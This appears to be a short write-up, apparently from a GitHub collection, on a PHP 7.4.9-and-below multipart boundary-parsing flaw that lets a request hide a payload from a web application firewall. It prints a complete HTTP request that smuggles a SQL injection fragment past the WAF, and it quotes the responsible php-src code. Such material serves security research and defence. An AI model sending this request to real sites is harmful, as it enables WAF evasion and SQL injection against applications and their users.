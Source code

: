 ### PHP 7.4.9 and below

**Incorrect boundary parsing**  
Attack payload can be hidden from WAF in file

**HTTP Request**
```http
POST / HTTP/1.1
Host: localhost
Content-Type: multipart/form-data; PHPboundaryPHP=phpboundary; boundary=wafboundary
Content-Length: 219

--wafboundary
Content-Disposition: form-data; name="file"; filename="test.txt"
Content-Type: text/plain

--phpboundary
Content-Disposition: form-data; name="q"

' union select '1
--phpboundary--
--wafboundary--
```

**Source code** ([/php/php-src/main/rfc1867.c](https://github.com/php/php-src/blob/4514afc1875bedf4dc07cb457f8ef5c986a7ca55/main/rfc1867.c#L711-L725))
```c
boundary = strstr(content_type_dup, "boundary");
...
if (!boundary || !(boundary = strchr(boundary, '='))) {
```